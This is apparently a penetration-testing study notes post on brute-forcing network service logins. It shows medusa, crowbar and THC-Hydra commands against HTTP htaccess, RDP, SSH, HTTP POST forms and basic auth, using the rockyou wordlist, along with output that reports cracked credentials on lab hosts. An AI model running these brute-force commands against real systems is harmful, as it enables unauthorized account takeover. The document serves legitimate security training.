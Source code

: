 ```yaml
---
description: >-
  Network Service Attack Methods
title:  Network Service Attack Methods              # Add title here
date: 2022-11-12 08:00:00 -0600                           # Change the date to match completion date
categories: [11 Password Attacks,  Network Service Attack Methods]                     # Change Templates to Writeup
tags: [password attacks, hydra, medusa, crowbar, network service attack methods]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### HTTP htaccess Attack with Medusa

We will attempt to gain access to an htaccess-protected folder, /admin, on that server.

Next, we will launch medusa and initiate the attack against the htaccess-protected URL (-m DIR:/admin) on our target host with -h 10.11.0.22. We will attack the admin user (-u admin) with passwords from our rockyou wordlist file (-P /usr/share/wordlists/rockyou.txt and will, of course, use an HTTP authentication scheme (-M):
```bash
kali@kali:~$ medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: 123456 (1 of 14344391 com
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: 12345 (2 of 14344391 comp
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: 123456789 (3 of 14344391 
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: password (4 of 14344391 c
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: iloveyou (5 of 14344391 c
...
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: samsung (255 of 14344391 
ACCOUNT CHECK: [http] Host: 10.11.0.22 User: admin Password: freedom (256 of 14344391 
ACCOUNT FOUND: [http] Host: 10.11.0.22 User: admin Password: freedom [SUCCESS]
...
```

This tool can interact with a variety of network protocols, which can be displayed with the -d option as shown below.

```bash
kali@kali:~$ medusa -d
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

  Available modules in "." :

  Available modules in "/usr/lib/medusa/modules" :
    + cvs.mod : Brute force module for CVS sessions : version 2.0
    + ftp.mod : Brute force module for FTP/FTPS sessions : version 2.1
    + http.mod : Brute force module for HTTP : version 2.1
    + imap.mod : Brute force module for IMAP sessions : version 2.0
    + mssql.mod : Brute force module for M$-SQL sessions : version 2.0
    + mysql.mod : Brute force module for MySQL sessions : version 2.0
...
```

### Remote Desktop Protocol Attack with Crowbar

Crowbar is a network authentication cracking tool primarily designed to leverage SSH keys rather than passwords. It is also one of the few tools that can reliably and efficiently perform password attacks against the Windows Remote Desktop Protocol (RDP) service on modern versions of Windows.

To invoke crowbar, we will specify the protocol (-b), the target server (-s), a username (-u), a wordlist (-C), and the number of threads (-n) as shown in Listing 16:

```bash
kali@kali:~$ crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
2019-08-16 04:51:12 START
2019-08-16 04:51:12 Crowbar v0.3.5-dev
2019-08-16 04:51:12 Trying 10.11.0.22:3389
2019-08-16 04:51:13 RDP-SUCCESS : 10.11.0.22:3389 - admin:Offsec!
2019-08-16 04:51:13 STOP
```

### SSH Attack with THC-Hydra
THC-Hydra is another powerful network service attack tool under active development and it is worth mastering. We can use it to attack a variety of protocol authentication schemes, including SSH and HTTP.

The standard options include -l to specify the target username, -P to specify a wordlist, and protocol://IP to specify the target protocol and IP address respectively.

```bash
kali@kali:~$ hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret servic

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-06-07 08:35:59
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommende
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:143443
[DATA] attacking ssh://127.0.0.1:22/
[22][ssh] host: 127.0.0.1   login: kali   password: whatever
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-06-07 08:36:13
```

### HTTP POST Attack with THC-Hydra

When an HTTP POST request is used for user login, it is most often through the use of a web form, which means we should use the "http-form-post" service module. We can supply the service name followed by -U to obtain additional information about the required arguments:

```bash
kali@kali:~$ hydra http-form-post -U
...
Help for module http-post-form:
============================================================================
Module http-post-form requires the page and the parameters for the web form.

```

The complete command can now be executed. We will supply the admin user name (-l admin) and wordlist (-P), request verbose output with -vV, and use -f to stop the attack when the first successful result is found. In addition, we will supply the service module name (http-form-post) and its required arguments ("/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN") as shown below.

```bash
kali@kali:~$ hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
```

Basic Authentication bruteforce.
```bash
hydra -l offsec -P /usr/share/wordlists/rockyou.txt -s 80 -f 192.168.201.52 http-get /
```